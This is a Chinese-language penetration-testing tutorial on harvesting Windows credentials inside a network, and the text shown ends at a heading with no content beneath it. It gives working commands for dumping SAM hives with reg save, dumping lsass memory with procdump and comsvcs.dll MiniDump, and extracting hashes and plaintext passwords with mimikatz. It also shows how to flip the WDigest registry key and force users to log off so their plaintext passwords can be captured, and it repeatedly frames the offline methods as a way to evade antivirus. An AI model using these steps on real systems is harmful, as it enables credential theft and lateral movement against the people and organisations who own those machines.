# 内网密码抓取
## 内网密码抓取技术概述
>内网密码抓取技术在内网渗透中非常非常非常的重要，账号密码决定后续是否可以进行横向，在内网渗透中有一个很重要的思路
```
抓取密码--> 横向移动-->抓取密码--> 横向移动
```

**值得关注的密码**
```
1、本地账号密码（或者hash）
2、域账号密码（或者hash）
3、RDP账号密码
4、浏览器账号密码
5、数据库账号密码
6、本地保存账号密码文件
```

## 电脑系统密码抓取原理



1. 读取SAM文件
2. 读取lsass.exe进程的内存数据

## 读取SAM文件内容
### 在线读取
>在线读取的意思就是，我们通过工具上传到目标的机器然后再直接读取机器上的SAM文件中的内容，这里我们主要读取的NTLM-HASH值

**弊端**

- 上传的工具可能会被杀软杀掉
- 工具因为网络问题传输可能不完整

**方法一：使用mimikatz上传工具到目标机器读取**

使用mimikatz在线读取Sam文件

分开的命令如下（按顺序执行）
```
privilege::debug
token::elevate
lsadump::sam
```

连起来
```
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit
```


>注意只有Administrator、system、过了UAC认证的管理员权限才能使用以上命令抓取密码

**方法二：直接使用cs读取目标机器的sam文件**





### 离线读取
>离线读取的意思就是，我们不需要再本地读取，可以将SAM文件复制到我们自己的电脑上然后使用工具读取，这里我们主要读取的NTLN-HASH值

>离线读取在一定程度上可以躲避杀软

**通过工具或者命令导出SAM文件**

1. 通过reg命令导出（操作注册表）
```
reg save hklm\sam sam.hive
reg save hklm\system system.hive

#system是相关的密钥文件 
```

2. 使用PS（Copy-VSS）脚本
```
powershell-import Copy-VSS.ps1
powershell Copy-VSS
```


**下载文件到cs本地**




**将mimikatz与两文件放在同一目录下**



**使用mimikatz读取**（高权限运行mimikatz）
```
lsadump::sam /sam:sam.hive /system:system.hive
```

## 读取lsass.exe进程内存
### 在线读取
>通过工具上传到目标的机器然后再直接读取机器上lsass内存中的明文账号密码，这里我们主要读取的是明文

**弊端** ：上传的工具可能会被杀软杀掉

**mimikatz读取lsass.exe进程内存**

**前置命令**：`privilege::debug`
- 原理：这是使用 sekurlsa 模块前必须执行的一步。它请求并获得 SeDebugPrivilege（调试权限）。这个权限允许你打开其他进程的句柄，尤其是像 LSASS 这样受系统保护的进程。如果没有它，Mimikatz 甚至无法读取 LSASS 的内存。

1. sekurlsa::msv（获取 HASH - LM, NTLM）
   - **原理**：MSV（Microsoft Security Provider）是 Windows 处理本地认证的核心模块。当用户登录后，LSASS 内存中会保留该用户的 NTLM Hash（和过时的 LM Hash）。
   - **作用**：该命令读取内存中缓存的 NTLM Hash，用于哈希传递（Pass-the-Hash, PtH）攻击。这是内网横向移动的基础。
   - **注意**：它获取的是 Hash，不是明文。 
   

2. sekurlsa::wdigest（通过可逆的方式去内存中读取明文密码）
   - **原理**：WDigest 是 Windows 早期为 HTTP 摘要认证设计的协议。为了支持这种认证，它必须在内存中以明文形式保存用户的密码。
   - **作用**：该命令直接从内存中提取明文密码。
   - 实战现状：
     - 在 Windows 7 / Server 2008 R2 及之前，WDigest 默认开启，可以直接抓到明文。
     - 在 Windows 8 / Server 2012 及之后，微软默认关闭了 WDigest。但是，攻击者可以通过修改注册表 HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest 将 UseLogonCredential 设为 1，强制开启它。然后等待管理员再次登录，就能抓到明文。
     
3. sekurlsa::Kerberos（获取域管理员的明文密码）
   - **原理**：在域环境中，Kerberos 是默认认证协议。当用户登录时，LSASS 会缓存 Kerberos 票据（TGT）和相关的密钥（如用户 Hash 派生的密钥）。如果开启了某些特定的兼容性设置，Kerberos 模块也可能在内存中保存明文密码。
   - **作用**：提取与 Kerberos 相关的凭据，通常用于域环境下的攻击（如黄金票据、白银票据）。
   
4. sekurlsa::tspkg（通过 tspkg 读取明文密码）
   - **原理**：TSPKG（Terminal Services Package）是终端服务（远程桌面 RDP）的认证包。当用户通过 RDP 登录时，为了支持后续的凭据委派，LSASS 内存中会缓存用户的凭据。
   - **作用**：专门用于提取通过 RDP 登录的用户的凭据。如果在服务器上抓到了管理员通过 RDP 登录的凭据，这就是一个重大突破口。 
   
5. sekurlsa::livessp（通过 livessp 读取明文密码）
   - **原理**：LiveSSP（Live Security Support Provider）是微软为 Windows Live（现在的 Microsoft Account）设计的认证包。如果你用微软账户登录 Windows 10/11，LSASS 内存中可能会保留相关凭据。
   - **作用**：提取微软账户的凭据（通常是明文密码或 Token）。
   - **实战意义**：较少用，主要针对使用个人微软账户登录的机器。    
6. sekurlsa::ssp（通过 ssp 读取明文密码）
   - **原理**：SSP（Security Support Provider）是安全支持提供程序。Windows 允许第三方或系统组件注册自己的 SSP。LSASS 内存中会加载这些 SSP 的凭据。
   - **作用**：提取当前系统中所有已注册 SSP 的凭据。这是一个“大杂烩”命令，可能包含 NTLM、Kerberos 或其他自定义 SSP 的明文密码。

7. sekurlsa::logonPasswords（通过以上各种方法读取明文密码）
   - **原理**：这是 sekurlsa 模块的终极命令。它会一次性遍历上述所有模块（MSV, WDigest, Kerberos, TSPKG, LiveSSP, SSP），把所有能抓到的凭据全部抓出来。
   - **作用**：实战中最常用的命令。

### 离线读取
>一定程度上躲避杀软

#### 第一步内存转储
**方法一：远程控制目标主机，通过任务管理器导出**

在任务管理器中找到lsass.exe进程

对该进程创建转储文件

然后将转储文件保存到本地主机上

**方法二：使用procdump 导出lsass.dmp文件**

procDump 是微软的一个命令行实用工具，其主要用途是在管理员或开发人员可用于确定峰值原因的峰值期间监视 CPU 峰值和生成故障转储的应用程序,微软的一般不会被杀软杀掉

**命令**
```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```




**方法三：通过comsvcs.dll的导出函数MiniDump实现dump内存**

- comsvcs.dll，系统自带

- **命令**：
  - 首先查看lsass.exe进程PID: 
    ``` 
    tasklist | findstr lsass.exe
    ```
    

  - 使用powershell导出rundll32
    ```
    rundll32 C:\windows\system32\comsvcs.dll, MiniDump 840 C:\Users\Administrator\Desktop\lsass.dmp full
    ```
    
      | 部分 | 含义 |
      |------|------|
      | `rundll32` | Windows 自带的程序，用于加载 DLL 并调用其函数 |
      | `comsvcs.dll, MiniDump` | 指定要调用的 DLL 和函数。逗号后面紧跟函数名是 `rundll32` 的语法 |
      | `680` | 这是上一步查到的 `lsass.exe` 的 PID。在实际操作中，这个数字需要替换成你自己查到的值 |
      | `C:\Users\Administrator\Desktop\lsass.dmp` | 这是内存转储文件要保存的路径和文件名 |
      | `full` | 表示生成完整的转储文件，包含所有内存信息 |

#### 第二步读取转储文件

**使用mimikatz工具进行读取**
```
mimikatz.exe “sekurlsa::minidump lsass.dmp” “sekurlsa::logonPasswords full”
```
或者
```
第一个命令：sekurlsa::minidump lsass.dmp

第二个命令：sekurlsa::logonPasswords full
```




## 高版本系统密码抓取概述
>Win7、Win2008这样的机器内存中是存储明文的密码，但是在2012之后的机器（win10、win 8、win11、2012、2016）或者安装了KB2971997补丁是内存中就不在存储明文的密码了，我们无法通过上述的方法抓取到明文的密码。


### 修改Wdigest注册表获取系统密码
>在Windows2012系统及以上的系统，默认在内存缓存中禁止保存明文密码的。攻击者可以通过修改注册表的方式抓取明文，需要用户重新登录后才能成功抓取

**开启**
```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f 
```
**关闭**
```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f 
```

#### 流程

**首先查询缓存中保存明文是否开启**
```
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /V UseLogonCredential

```

**开启内存缓存保存明文密码**


**锁屏或重启**
```
1. rundll32.exe user32.dll,LockWorkStation 锁屏

2. query user 查询登录 
   logoff ID 注销用户
```

**mimikatz抓取**
